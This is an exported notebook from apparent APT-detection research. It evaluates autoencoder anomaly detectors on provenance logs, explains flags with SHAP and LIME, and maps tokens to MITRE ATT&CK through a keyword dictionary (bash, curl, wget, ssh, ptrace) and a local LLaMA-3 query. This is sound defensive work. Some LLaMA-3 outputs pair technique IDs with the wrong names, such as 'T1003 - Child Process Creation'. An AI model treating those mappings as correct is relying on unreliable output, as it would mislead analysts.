c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


  Samples: 223415 Train | 55954 Test
    -> Training Baseline... Done. AUC: 0.9976 | nDCG: 0.8717 (DCG: 18.2533, IDCG: 20.9387)
    -> Training Sparse... Done. AUC: 0.9029 | nDCG: 0.3969 (DCG: 8.3109, IDCG: 20.9387)
    -> Training Deep SVDD... Done. AUC: 0.9297 | nDCG: 0.838 (DCG: 17.5463, IDCG: 20.9387)
    -> Training DAE... Done. AUC: 0.9863 | nDCG: 0.5793 (DCG: 12.1289, IDCG: 20.9387)
    -> Training VAE... Done. AUC: 0.8937 | nDCG: 0.3884 (DCG: 8.1318, IDCG: 20.9387)
    -> Training Beta-VAE... Done. AUC: 0.8916 | nDCG: 0.3936 (DCG: 8.241, IDCG: 20.9387)
    -> Training GMVAE... Done. AUC: 0.9986 | nDCG: 0.8782 (DCG: 18.3884, IDCG: 20.9387)
    -> Training Attention AE... Done. AUC: 0.9036 | nDCG: 0.3971 (DCG: 8.3157, IDCG: 20.9387)
    -> Training LSTMAE... Done. AUC: 0.9967 | nDCG: 0.8 (DCG: 16.75, IDCG: 20.9387)
    -> Training Robust... Done. AUC: 0.998 | nDCG: 0.8789 (DCG: 18.4036, IDCG: 20.9387)
    -> Training Contractive... Done. AUC: 0.9002 | nDCG: 0.3963 (DCG: 8.2977, I

In [8]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import (
    roc_auc_score, 
    average_precision_score, 
    precision_recall_curve,
    precision_score, 
    recall_score, 
    f1_score, 
    accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Parameterized for easy switching between models
EMBEDDING_NAME = "nomic" 

BASE_DIR = f"final_train_test_split_{EMBEDDING_NAME}"
MODEL_SAVE_DIR = f"saved_weights_{EMBEDDING_NAME}"
RESULTS_FILE = f"NEW_comprehensive_metrics_{EMBEDDING_NAME}.csv"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CRITICAL UPDATE] nomic-ai/nomic-embed-text-v1.5 uses 768 dimensions
INPUT_DIM = 768 

print(f"Running INFERENCE ONLY for {EMBEDDING_NAME.upper()} on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES (Must match exactly)
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x):
        return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)
    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)
    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std
    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu, self.logvar, self.pi = nn.Linear(1024, 256), nn.Linear(1024, 256), nn.Linear(1024, n_components)
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        return self.decoder(self.encoder(attn_out.squeeze(1)))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        _, (hidden, _) = self.encoder(x.unsqueeze(1))
        out, _ = self.decoder(hidden[-1].unsqueeze(1))
        return out.squeeze(1)


# ==========================================
# 3. FAST EVALUATION FUNCTION
# ==========================================
def evaluate_model(model_name, X_test, y_test, performer, context):
    
    # 1. Initialize empty model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    # 2. Load the saved weights using dynamic EMBEDDING_NAME
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}.pth"
    weight_path = os.path.join(MODEL_SAVE_DIR, weight_filename)
    
    if not os.path.exists(weight_path):
        return None # Skip if weights don't exist
        
    model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    model.eval()

    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()

    # 3. Do a single Forward Pass (Inference)
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # 4. Calculate All Metrics
    try:
        auc = roc_auc_score(y_test, errors)
        pr_auc = average_precision_score(y_test, errors)
        
        # Max F1 Thresholding
        precisions, recalls, thresholds = precision_recall_curve(y_test, errors)
        f1_scores = np.divide(2 * precisions * recalls, precisions + recalls, out=np.zeros_like(precisions), where=(precisions + recalls) != 0)
        best_idx = np.argmax(f1_scores)
        best_threshold = thresholds[best_idx] if best_idx < len(thresholds) else thresholds[-1]
        
        y_pred = (errors >= best_threshold).astype(int)
        
        precision = precision_score(y_test, y_pred, zero_division=0)
        recall = recall_score(y_test, y_pred, zero_division=0)
        f1 = f1_score(y_test, y_pred, zero_division=0)
        accuracy = accuracy_score(y_test, y_pred)
        
    except Exception as e:
        auc, pr_auc, precision, recall, f1, accuracy = 0.0, 0.0, 0.0, 0.0, 0.0, 0.0

    eval_time = time.time() - start_time

    return {
        "Performer": performer,
        "Context": context,
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Inference Time(s)": round(eval_time, 4)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        test_dir = os.path.join(BASE_DIR, performer, "test")
        if not os.path.exists(test_dir): continue
            
        files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nEvaluating: {performer.upper()} - {context}")
            
            with open(os.path.join(test_dir, file), 'rb') as f:
                pkg = pickle.load(f)
                X_test, y_test = pkg['X'], pkg['y']

            for m_name in models_to_run:
                res = evaluate_model(m_name, X_test, y_test, performer, context)
                if res is None:
                    print(f"    [!] Skipping {m_name}... Weights not found.")
                else:
                    all_results.append(res)
                    print(f"    -> {m_name} Done! F1: {res['F1-Score']} | PR-AUC: {res['PR-AUC']}")

if all_results:
    df_res = pd.DataFrame(all_results)
    df_res.to_csv(RESULTS_FILE, index=False)
    print("\n" + "="*60)
    print(f"SUCCESS! Extracted all new metrics without retraining.")
    print(f"Saved to {RESULTS_FILE}")
    print("="*60)

Running INFERENCE ONLY for NOMIC on Device: CUDA
------------------------------------------------------------

Evaluating: 5DIR - ProcessAll
    -> Baseline Done! F1: 0.125 | PR-AUC: 0.0445
    -> Sparse Done! F1: 0.1739 | PR-AUC: 0.0469
    -> Deep SVDD Done! F1: 0.1429 | PR-AUC: 0.0561
    -> DAE Done! F1: 0.1395 | PR-AUC: 0.0408
    -> VAE Done! F1: 0.1277 | PR-AUC: 0.0349
    -> Beta-VAE Done! F1: 0.15 | PR-AUC: 0.0401
    -> GMVAE Done! F1: 0.1395 | PR-AUC: 0.038
    -> Attention AE Done! F1: 0.08 | PR-AUC: 0.0377
    -> LSTMAE Done! F1: 0.1053 | PR-AUC: 0.0393
    -> Robust Done! F1: 0.0952 | PR-AUC: 0.0451
    -> Contractive Done! F1: 0.1667 | PR-AUC: 0.0442

Evaluating: 5DIR - ProcessEvent
    -> Baseline Done! F1: 0.0843 | PR-AUC: 0.0306
    -> Sparse Done! F1: 0.0625 | PR-AUC: 0.0205
    -> Deep SVDD Done! F1: 0.0482 | PR-AUC: 0.0105
    -> DAE Done! F1: 0.0619 | PR-AUC: 0.0191
    -> VAE Done! F1: 0.0594 | PR-AUC: 0.0163
    -> Beta-VAE Done! F1: 0.0723 | PR-AUC: 0.0207
    

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> Baseline Done! F1: 0.0 | PR-AUC: 0.0
    -> Sparse Done! F1: 0.0 | PR-AUC: 0.0
    -> Deep SVDD Done! F1: 0.0 | PR-AUC: 0.0
    -> DAE Done! F1: 0.0 | PR-AUC: 0.0
    -> VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Beta-VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> GMVAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Attention AE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> LSTMAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Robust Done! F1: 0.0 | PR-AUC: 0.0
    -> Contractive Done! F1: 0.0 | PR-AUC: 0.0

Evaluating: THEIA - ProcessAll
    -> Baseline Done! F1: 0.7797 | PR-AUC: 0.745
    -> Sparse Done! F1: 0.0355 | PR-AUC: 0.0114
    -> Deep SVDD Done! F1: 0.8113 | PR-AUC: 0.6646
    -> DAE Done! F1: 0.366 | PR-AUC: 0.1525
    -> VAE Done! F1: 0.0252 | PR-AUC: 0.0086
    -> Beta-VAE Done! F1: 0.0326 | PR-AUC: 0.0104
    -> GMVAE Done! F1: 0.7083 | PR-AUC: 0.7028
    -> Attention AE Done! F1: 0.0378 | PR-AUC: 0.0114
    -> LSTMAE Done! F1: 0.6596 | PR-AUC: 0.5703
    -> Robust Done! F1: 0.7257 | PR-AUC: 0.7217
    -> Contractive Done! F1: 0.0365 | PR-AUC: 0.0112

Evaluating: THEIA - ProcessEvent
    -> Baseline Done! F1: 0.7339 | PR-AUC: 0.5721
    -> Sparse Done! F1: 0.0153 | PR-AUC: 0.0051
    -> Deep SVDD Done! F1: 0.0037 | PR-AUC: 0.0018
    -> DAE Done! F1: 0.133 | PR-AUC: 0.0452
    -> VAE Done! F1: 0.0119 | PR-AUC: 0.0036
    -> Beta-VAE Done! F1: 0.

#### XAI Integration and MITRE ATT&CK mapping

In [2]:
import os
import torch
import numpy as np
import shap
import pandas as pd
from transformers import AutoTokenizer, AutoModel
import torch.nn as nn
import pickle
import requests
from lime.lime_text import LimeTextExplainer

# ==========================================
# 1. SETUP & CONFIGURATION
# ==========================================
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [NOMIC UPDATE]
EMBEDDER_NAME = "nomic-ai/nomic-embed-text-v1.5" 
INPUT_DIM = 768  # Critical: Nomic defaults to 768 dimensions!

TARGET_PERFORMER = 'theia'       
TARGET_CONTEXT = 'ProcessAll'    
TARGET_AE_MODEL = 'Baseline'      

USE_LLM_MAPPING = True

# ==========================================
# 2. EXTENDED MITRE ATT&CK MAPPING
# ==========================================
MITRE_MAPPING = {
    "/bin/bash": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "powershell": "T1059.001 - Command and Scripting Interpreter: PowerShell",
    "cmd.exe": "T1059.003 - Command and Scripting Interpreter: Windows Command Shell",
    "whoami": "T1033 - System Owner/User Discovery",
    "chmod": "T1222.002 - File and Directory Permissions Modification: Linux",
    "/usr/bin/wget": "T1105 - Ingress Tool Transfer",
    "curl": "T1105 - Ingress Tool Transfer",
    "ssh": "T1021.004 - Remote Services: SSH",
    "event fork": "T1055 - Process Injection / Execution",
    "event execve": "T1059 - Command and Scripting Interpreter",
    "event clone": "T1055 - Process Injection / Execution",
    "event ptrace": "T1055 - Process Injection",
    "network 10.": "T1090 - Proxy / Internal Network Communication",
    "network 80": "T1071.001 - Application Layer Protocol: Web Protocols",
    "executable": "T1059 - Command and Scripting Interpreter / Execution",
    "nginx": "T1505.003 - Server Software Component: Web Shell"
}

# ==========================================
# 3. AUTOENCODER DEFINITION
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 4. LOCAL LLaMA 3 OLLAMA API FUNCTION
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text."""
    
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=10)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return f"[Error] Local API returned status {response.status_code}"
    except Exception as e:
        return f"[Error] Exception occurred: {str(e)}"

# Load the raw sentences
print("Loading all_data_with_sentences.pkl...")
try:
    with open("all_data_with_sentences.pkl", "rb") as f:
        all_data = pickle.load(f)
    print("✓ Data loaded successfully!")
except FileNotFoundError:
    print("[!] all_data_with_sentences.pkl not found.")

# ==========================================
# 5. THE END-TO-END PIPELINE WRAPPER
# ==========================================
class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        print(f"Loading {embedder_name} on {self.device.upper()}...")
        
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name, trust_remote_code=True)
        self.embedder = AutoModel.from_pretrained(embedder_name, trust_remote_code=True).to(self.device)
        self.embedder.eval()
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray):
            text_list = text_list.tolist()
            
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        batch_size = 4 
        all_errors = []
        ac_device = 'cuda' if 'cuda' in self.device else 'cpu'
        
        for i in range(0, len(text_list), batch_size):
            batch_texts = text_list[i:i+batch_size]
            
            # [FIXED] Dynamic padding instead of max_length
            inputs = self.tokenizer(
                batch_texts, 
                padding=True, 
                truncation=True, 
                max_length=128, 
                return_tensors="pt"
            ).to(self.device)

            if "token_type_ids" in inputs:
                inputs["token_type_ids"] = torch.zeros_like(inputs["input_ids"]).to(self.device)

            with torch.amp.autocast(ac_device):
                with torch.inference_mode():
                    outputs = self.embedder(**inputs)
                    
                    # [FIXED] Attention-Aware Mean Pooling
                    token_embeddings = outputs.last_hidden_state
                    attention_mask = inputs['attention_mask']
                    
                    input_mask_expanded = attention_mask.unsqueeze(-1).expand(token_embeddings.size()).float()
                    sum_embeddings = torch.sum(token_embeddings * input_mask_expanded, 1)
                    sum_mask = torch.clamp(input_mask_expanded.sum(1), min=1e-9)
                    embeddings = sum_embeddings / sum_mask
                    
                    reconstructed = self.ae_model(embeddings)
                    errors = torch.mean((embeddings - reconstructed) ** 2, dim=1)
                    all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 6. INITIALIZE MODELS & LOAD WEIGHTS
# ==========================================
print("-" * 60)
print("INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)")
print("-" * 60)

ae_model = VanillaAE(INPUT_DIM)
weight_filename = f"{TARGET_PERFORMER}_{TARGET_CONTEXT}_{TARGET_AE_MODEL}.pth"
weight_path = os.path.join("saved_weights_nomic", weight_filename)

if not os.path.exists(weight_path):
    print(f"[!] CRITICAL ERROR: Could not find weights at {weight_path}")
else:
    # Safe CPU-first weight loading
    state_dict = torch.load(weight_path, map_location='cpu')
    ae_model.load_state_dict(state_dict)
    ae_model = ae_model.to(DEVICE)
    print(f"✓ Loaded weights safely: {weight_path}")

    pipeline = APT_Explainer(EMBEDDER_NAME, ae_model, DEVICE)
    shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
    lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly'])

    def lime_predict_wrapper(text_list):
        errors = pipeline.predict_anomaly_score(text_list)
        probs = 1 / (1 + np.exp(-errors))
        return np.vstack((1 - probs, probs)).T

    # ==========================================
    # 7. EXPLAIN THE ANOMALY
    # ==========================================
    try:
        df = all_data[TARGET_PERFORMER][TARGET_CONTEXT]
        anomalies_df = df[df['label'] == 1]
        
        if anomalies_df.empty:
            print(f"[!] No anomalies found.")
        else:
            raw_apt_log = [anomalies_df['sentence'].iloc[0]]
            print(f"\nAnalyzing True Positive Anomaly:\n>>> '{raw_apt_log[0]}'")
            
            # ==========================================
            # 8. RUN LIME
            # ==========================================
            print("\n" + "="*80)
            print("LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)
            
            print("Calculating LIME perturbations...")
            for text in raw_apt_log:
                lime_exp = lime_explainer.explain_instance(text, lime_predict_wrapper, num_features=5)
                
                print("Top LIME Anomaly Drivers:")
                for word, weight in lime_exp.as_list():
                    clean_word = word.strip().lower()
                    
                    # [FIXED] Removed `weight > 0` to show negative drivers too
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (LIME Weight: {weight:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(text, clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

            # ==========================================
            # 9. RUN SHAP 
            # ==========================================
            print("\nCalculating SHAP values (Optimized speed...)")
            shap_values = shap_explainer(raw_apt_log, max_evals=100)
            
            print("\n" + "="*80)
            print("SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)

            for i, text in enumerate(raw_apt_log):
                words = shap_values.data[i]
                impact_scores = shap_values.values[i]
                # Sort by absolute impact to see the most influential words (both positive and negative)
                word_impacts = sorted(zip(words, impact_scores), key=lambda x: abs(x[1]), reverse=True)
                
                print("Top SHAP Anomaly Drivers:")
                for word, score in word_impacts[:5]: 
                    clean_word = word.strip().lower()
                    
                    # [FIXED] Removed `score > 0` filter
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (Anomaly Impact: {score:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(raw_apt_log[0], clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

    except NameError:
        print("[!] The 'all_data' variable is not loaded.")

Loading all_data_with_sentences.pkl...
✓ Data loaded successfully!
------------------------------------------------------------
INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)
------------------------------------------------------------
✓ Loaded weights safely: saved_weights_nomic\theia_ProcessAll_Baseline.pth
Loading nomic-ai/nomic-embed-text-v1.5 on CUDA...


<All keys matched successfully>



Analyzing True Positive Anomaly:
>>> 'Process has event clone and event mmap and event mprotect and event open and event read and event recvfrom and executable /home/admin/profile and executable /home/admin/clean.1 and executable N/A.1 and network 161.116.88.72 and network 80'

LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Calculating LIME perturbations...
Top LIME Anomaly Drivers:
 -> 'event' (LIME Weight: -0.0114)
    [!] LLaMA-3 MITRE MAPPING: T1003 - Child Process Creation
 -> 'recvfrom' (LIME Weight: -0.0066)
    [!] LLaMA-3 MITRE MAPPING: T1002 - Data from Local System
 -> 'mprotect' (LIME Weight: -0.0049)
    [!] LLaMA-3 MITRE MAPPING: T1003.001 - syscall-discovery
 -> 'clone' (LIME Weight: +0.0035)
    [!] LLaMA-3 MITRE MAPPING: T1003.001 - System Binary Proxying
 -> 'profile' (LIME Weight: -0.0033)
    [!] LLaMA-3 MITRE MAPPING: T1003 - Child Process Creation

Calculating SHAP values (Optimized speed...)

SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Top SHAP Anomaly Drivers:
 ->

### 5. `answerdotai/ModernBERT-large`

#### Embedding generation

In [6]:
import pandas as pd
import numpy as np
import torch
import torch.nn.functional as F
import pickle
import os
from transformers import AutoTokenizer, AutoModel

# ==========================================
# 1. CONFIGURATION
# ==========================================
INPUT_FILE = 'all_data_with_sentences.pkl'
MODEL_NAME = 'answerdotai/ModernBERT-large'

# ModernBERT is highly optimized (Flash Attention).
# Even the "Large" version is very fast.
# Batch Size 32 is safe for 11GB VRAM.
BATCH_SIZE = 32

# ==========================================
# 2. LOAD RESOURCES
# ==========================================
device = 'cuda' if torch.cuda.is_available() else 'cpu'
print(f"Using device: {device.upper()}")

print(f"Loading model: {MODEL_NAME}...")

# Load Tokenizer & Model
# ModernBERT uses a new architecture, so trust_remote_code is safer.
tokenizer = AutoTokenizer.from_pretrained(MODEL_NAME, trust_remote_code=True)
model = AutoModel.from_pretrained(MODEL_NAME, trust_remote_code=True, torch_dtype=torch.float16)

# Move to GPU
print(f"Moving model to {device}...")
model.to(device)
model.eval()

if os.path.exists(INPUT_FILE):
    print(f"Loading data from {INPUT_FILE}...")
    with open(INPUT_FILE, 'rb') as f:
        all_data = pickle.load(f)
else:
    raise FileNotFoundError(f"Missing {INPUT_FILE}. Run the sentence generation step first.")

# ==========================================
# 3. HELPER: MEAN POOLING (Robust Default)
# ==========================================
def mean_pooling(token_embeddings, attention_mask):
    """
    Standard Mean Pooling.
    Averages the token embeddings, ignoring padding tokens.
    """
    input_mask_expanded = attention_mask.unsqueeze(-1).expand(token_embeddings.size()).float()
    return torch.sum(token_embeddings * input_mask_expanded, 1) / torch.clamp(input_mask_expanded.sum(1), min=1e-9)

def get_modernbert_embeddings(text_list, model, tokenizer, batch_size=32):
    all_embeddings = []
    total = len(text_list)
    
    for i in range(0, total, batch_size):
        batch_texts = text_list[i : i + batch_size]
        
        # Tokenize
        # ModernBERT supports 8192, but 1024 is plenty for logs
        batch_dict = tokenizer(
            batch_texts, 
            max_length=1024, 
            padding=True, 
            truncation=True, 
            return_tensors='pt'
        )
        
        # Move inputs to GPU
        batch_dict = {k: v.to(device) for k, v in batch_dict.items()}
        
        with torch.no_grad():
            outputs = model(**batch_dict)
            
            # [CRITICAL] Use Mean Pooling for general representation
            # (Some ModernBERT fine-tunes use CLS, but for the base/general usage, Mean is standard)
            embeddings = mean_pooling(outputs.last_hidden_state, batch_dict['attention_mask'])
            
            # Normalize (Critical for Cosine Similarity/Anomaly Detection)
            embeddings = F.normalize(embeddings, p=2, dim=1)
            
            all_embeddings.extend(embeddings.cpu().numpy())
            
        print(f"    Processed {min(i + batch_size, total)}/{total}...", end="\r")
            
    print("") 
    return all_embeddings

# ==========================================
# 4. GENERATE EMBEDDINGS
# ==========================================
print("\n" + "="*80)
print(f"GENERATING EMBEDDINGS ({MODEL_NAME})")
print("="*80)

for performer in all_data:
    print(f"\n--- Processing Performer: {performer.upper()} ---")
    
    for context in all_data[performer]:
        df = all_data[performer][context]
        
        if 'sentence' not in df.columns:
            print(f"  [!] Skipping {context} (No sentences found)")
            continue
            
        print(f"  -> {context} ({len(df)} rows)...")
        
        try:
            sentences = df['sentence'].tolist()
            
            # Generate
            embeddings = get_modernbert_embeddings(sentences, model, tokenizer, BATCH_SIZE)
            
            if len(embeddings) != len(df):
                print(f"  [!] Mismatch: {len(embeddings)} vs {len(df)}")
                continue

            df['embedding'] = list(embeddings)
            all_data[performer][context] = df
            print(f"     ✓ Done.")
            
        except Exception as e:
            print(f"\n  [!] Error processing {context}: {e}")
            torch.cuda.empty_cache()

# ==========================================
# 5. SAVE DATA (CHUNKED)
# ==========================================
SAVE_DIR = "processed_embeddings_modernbert_large"
os.makedirs(SAVE_DIR, exist_ok=True)

print(f"\nAttempting to save ModernBERT chunks to: {os.path.abspath(SAVE_DIR)}")

if 'all_data' in locals() and all_data:
    for performer in all_data:
        for context in all_data[performer]:
            try:
